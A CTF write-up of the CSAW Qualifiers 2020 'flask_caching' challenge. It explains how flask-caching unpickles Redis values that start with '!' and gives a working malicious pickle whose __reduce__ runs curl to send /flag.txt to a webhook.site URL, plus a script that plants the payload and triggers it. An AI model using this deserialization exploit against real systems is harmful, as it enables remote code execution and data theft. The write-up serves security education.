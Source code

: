 ```yaml
---
title: "CSAW Qualifiers 2020 - flask_caching"
date: 2020-09-14T21:15:03+01:00
---
```


We were presented with a simple Flask server,
we can see the code bellow (see the [full code](/ctf/csaw/qualifiers/app.py)).

```python
#!/usr/bin/env python3

from flask import Flask
from flask import request, redirect
from flask_caching import Cache
from redis import Redis
import jinja2
import os

app = Flask(__name__)
app.config['CACHE_REDIS_HOST'] = 'localhost'
app.config['DEBUG'] = False

cache = Cache(app, config={'CACHE_TYPE': 'redis'})
redis = Redis('localhost')
jinja_env = jinja2.Environment(autoescape=['html', 'xml'])


@app.route('/', methods=['GET', 'POST'])
def notes_post():
    if request.method == 'GET':
        return '''
        <h4>Post a note</h4>
        <form method=POST enctype=multipart/form-data>
        <input name=title placeholder=title>
        <input type=file name=content placeholder=content>
        <input type=submit>
        </form>
        '''

    print(request.form, flush=True)
    print(request.files, flush=True)
    title = request.form.get('title', default=None)
    content = request.files.get('content', default=None)

    if title is None or content is None:
        return 'Missing fields', 400

    content = content.stream.read()

    if len(title) > 100 or len(content) > 256:
        return 'Too long', 400

    redis.setex(name=title, value=content, time=10)  # Note will only live for max 30 seconds

    return 'Thanks!'


# This caching stuff is cool! Lets make a bunch of cached functions.

@cache.cached(timeout=10)
def _test0():
    return 'test'
@app.route('/test0')
def test0():
    _test0()
    return 'test'

if __name__ == "__main__":
    app.run('0.0.0.0', 5000)
```

Analyzing the code, top to bottom we see that the server uses Redis as a cache, no big deal with that.
However, the way it is being used is weird.

Whenever a new note is being posted,
the "raw" operation is used,
however when using the test endpoints the calls are wrapped with the `@cache.cached` decorator.

Furthermore, the test endpoints always return `'test'` so even if we store something there we will not have direct feedback.

Following the decorator rabbit hole to the [`rediscache.py`](https://github.com/sh4nks/flask-caching/blob/9bd8365aa5bac9fb91e9e7ddc663ff087a97ab7a/flask_caching/backends/rediscache.py#L112-L115) we find the following:

```python
def get(self, key):
    return self.load_object(
        self._read_clients.get(self._get_prefix() + key)
    )
```

And following the `load_object`:

```python
def load_object(self, value):
    """The reversal of :meth:`dump_object`.  This might be called with
    None.
    """
    if value is None:
        return None
    if value.startswith(b"!"):
        try:
            return pickle.loads(value[1:])
        except pickle.PickleError:
            return None
    try:
        return int(value)
    except ValueError:
        # before 0.8 we did not have serialization.  Still support that.
        return value
```

Seeing `pickle.loads` means we have a winner.

According to the [documentation](https://docs.python.org/3/library/pickle.html):

> Warning
>
> The pickle module is not secure. Only unpickle data you trust.
>
> It is possible to construct malicious pickle data which will execute arbitrary code during unpickling. Never unpickle data that could have come from an untrusted source, or that could have been tampered with.

Triggering the deserialization is easy,
just start the content with `!` and the cache will take care of the rest for use.

Now we just need to create a payload and find the cache key.

First, the cache key as it is the easiest part.

- Run `app.py` with a Redis instance (increase the cache timer if necessary).
- Send a GET request to one of the test endpoints.
- Use `redis-cli` to retrieve all stored keys with `redis-cli keys "*"`.
- You now know the key is `flask_cache_view//testN` where `N` is the test endpoint number.

We now move on to the pickle.

With a quick search we find that this is called pickle shellcode,
the idea is to serialize a pickle with executes code on deserialization.

I found [this GitHub gist](https://gist.github.com/0xBADCA7/f4c700fcbb5fb8785c14) which shows a "framework" to write "bad" pickles.

From there we write our exploit class:

```python
class Exploit():
    def __reduce__(self):
        return (os.system, ('curl https://webhook.site/<id>?flag=`cat /flag.txt`', ))
```

This works because `pickle` allows objects to decide how to be pickled using the `__reduce__` method,
hence we return a tuple of a `callable` and its arguments.

Using `os.system` we can launch an arbitrary process,
I used `curl` to send a request to `webhook.site` with the flag as a query parameter.

Now we just [automate](/ctf/csaw/qualifiers/exploit.py) the whole process,
serializing the Exploit object to bytes,
send the bytes as a file and request the test endpoint.

```python
url = "http://web.chal.csaw.io:5000/"

class Exploit():
    def __reduce__(self):
        return (os.system, ('curl https://webhook.site/127d80d9-c737-44fe-95b3-c053849634a5?flag=`cat /flag.txt`', ))

bad_pickle = b"!" + pickle.dumps(Exploit())
requests.post(url,
    data={"title":"flask_cache_view//test0"},
    files={"content":bad_pickle})
requests.get(url + "/test0")
```